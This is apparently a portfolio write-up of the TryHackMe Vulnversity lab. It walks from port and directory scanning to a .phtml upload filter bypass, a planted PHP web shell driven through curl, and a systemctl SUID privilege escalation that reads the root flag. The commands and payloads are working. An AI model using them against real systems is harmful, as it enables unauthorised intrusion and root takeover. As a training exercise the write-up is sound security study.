







# Project 11 — Vulnerability Assessment Report (Vulnversity)


---

## Objective
I ran a full black-box penetration test against a TryHackMe target machine (Vulnversity room): reconnaissance, web server enumeration, a file upload filter bypass, command execution through a planted web shell, and privilege escalation via a misconfigured SUID binary — ending with root access and the flag.

---

## Tools Used
| Tool | Purpose | Why I Chose It |
|---|---|---|
| Nmap | Service/version scanning | Identifies open ports and exact service versions — the starting point of any assessment |
| Gobuster | Directory enumeration | Finds hidden web paths not linked anywhere on the visible site |
| curl | Web shell interaction | Sends HTTP requests to execute commands through the uploaded web shell |
| systemctl (GTFOBins technique) | Privilege escalation | Exploits a misconfigured SUID binary to execute commands as root |

**Note on environment:** TryHackMe's free-tier session limit expired multiple times during the reconnaissance phase, requiring redeployment to a new target machine more than once. The actual exploit chain — file upload through root access (Phases 4-7 below) — was performed entirely on a single machine without switching.

---

## Build Process

### Phase 1 — Target Deployment
Deployed the AttackBox via TryHackMe.
- Attacker Host IP: `10.114.168.176`
- Target IP: not yet known at this stage — discovered via Nmap in Phase 2



### Phase 2 — Reconnaissance
```
nmap -sV -Pn 10.114.131.169
```
Found 6 open ports:
- 21 — FTP (vsftpd 3.0.5)
- 22 — SSH (OpenSSH 8.2p1)
- 139 / 445 — Samba (smbd 4.6.2)
- 3128 — Squid Proxy (4.10)
- 3333 — Apache Web Server (2.4.41) ← primary attack surface



### Phase 3 — Web Directory Enumeration
```
gobuster dir -u http://10.114.131.169:3333 -w /usr/share/wordlists/dirb/common.txt
```
Found an unindexed path: `/internal/` (Status: 301) — an internal file upload utility.



*(Session expired after this point — redeployed to a new target machine. All remaining phases were carried out continuously on the new machine: Attacker `10.129.134.187`, Target `10.129.159.237`.)*

### Phase 4 — File Upload Filter Bypass
The upload form blocked `.php` files directly. Renaming the payload to `.phtml` bypassed the filter while still executing as PHP:
```
printf '<?php system($_GET["cmd"]); ?>' > shell.phtml && curl -F "file=@shell.phtml" -F "submit=Submit" http://10.129.159.237:3333/internal/index.php
```



### Phase 5 — Web Shell Command Execution Confirmed
Verified the uploaded shell worked by passing a command through the `cmd` parameter:
```
curl "http://10.129.159.237:3333/internal/uploads/shell.phtml?cmd=whoami"
```
**Output:** `www-data` — confirmed command execution as the web server's service account.

*(Note: this is command execution via a web shell over HTTP, not an interactive reverse shell — no listener or reverse connection was used at any point in this chain.)*



### Phase 6 — SUID Binary Discovery
```
curl "http://10.129.159.237:3333/internal/uploads/shell.phtml?cmd=ls+-la+/bin/systemctl"
```
**Output:** `-rwsr-xr-x 1 root root 996584 Jun 17 2024 /bin/systemctl`

The `s` in the permissions confirms the SUID bit is set on `systemctl` — meaning it runs with root privileges regardless of who executes it. This is a known, documented privilege escalation vector (GTFOBins).



### Phase 7 — Privilege Escalation & Flag Retrieval
Used the GTFOBins method for misconfigured `systemctl`: built a temporary systemd service unit that reads the root flag and writes it somewhere accessible, then loaded and ran it as root:
```
curl -G --data-urlencode "cmd=TF=\$(mktemp).service; echo '[Service]' > \$TF; echo 'Type=oneshot' >> \$TF; echo 'ExecStart=/bin/sh -c \"cat /root/root.txt > /tmp/flag.txt\"' >> \$TF; echo '[Install]' >> \$TF; echo 'WantedBy=multi-user.target' >> \$TF; /bin/systemctl link \$TF; /bin/systemctl enable --now \$TF; cat /tmp/flag.txt" "http://10.129.159.237:3333/internal/uploads/shell.phtml"
```
**Flag retrieved:** `a58ff8579f0a9270368d33a9966c7fd5`



---

## What I Got Wrong
- First Nmap scan returned nothing — the target had just booted and wasn't responding to host discovery pings yet. Fixed by adding `-Pn` to skip the ping check entirely.
- TryHackMe's free-tier session expired mid-recon more than once, forcing redeployment to a fresh target machine and re-running earlier steps.
- Pasting the full target IP directly into long commands occasionally got clipped by terminal width issues, breaking the command. Fixed by breaking the IP into shell variables and reconstructing it before use.
- Initially labeled the web shell access as a "reverse shell" — inaccurate. It was command execution through HTTP requests to a planted PHP file, not an interactive reverse connection. Corrected the terminology to match what actually happened.

---

## Key Lesson
A SUID misconfiguration on a single binary (`systemctl`, in this case) was enough to go from a low-privilege web service account to full root access — no separate exploit needed, just a documented technique (GTFOBins) applied to a binary that should never have had the SUID bit set. Checking for SUID binaries (`find / -perm -4000`) is one of the first things to try after gaining any shell access, low-privilege or not.

---

## Real-World Application
This mirrors a real external-to-root compromise: initial foothold through a web application's file upload flaw, then privilege escalation through a misconfigured system binary. Both stages — finding the upload bypass and checking for SUID misconfigurations — are standard steps in any real penetration test or red team engagement, not just CTF-specific tricks.

---

## Evidence & Screenshots
| Screenshot | What It Shows |
|---|---|
| `SS1_Machine_Deployed.PNG` | AttackBox and target machine deployed |
| `SS2_Nmap_Scan_Results.PNG` | Open ports and service versions identified |
| `SS3_Gobuster_Directories_Found.PNG` | Hidden `/internal/` upload path discovered |
| `SS4_Upload_Bypass.PNG` | `.phtml` upload bypassing the extension filter |
| `SS5_Reverse_Shell_Connected.PNG` | `whoami` confirms command execution as `www-data` (via web shell, not an interactive reverse shell) |
| `SS6_SUID_Binaries_Found.PNG` | `systemctl` found with SUID bit set |
| `SS7_Root_Access_Confirmed.PNG` | Root flag retrieved via GTFOBins technique |

---

## Files
| File | Description |
|------|-------------|
| `README.md` | Full project documentation |

---

## References
- [TryHackMe — Vulnversity](https://tryhackme.com/room/vulnversity)
- [GTFOBins — systemctl](https://gtfobins.github.io/gtfobins/systemctl/)
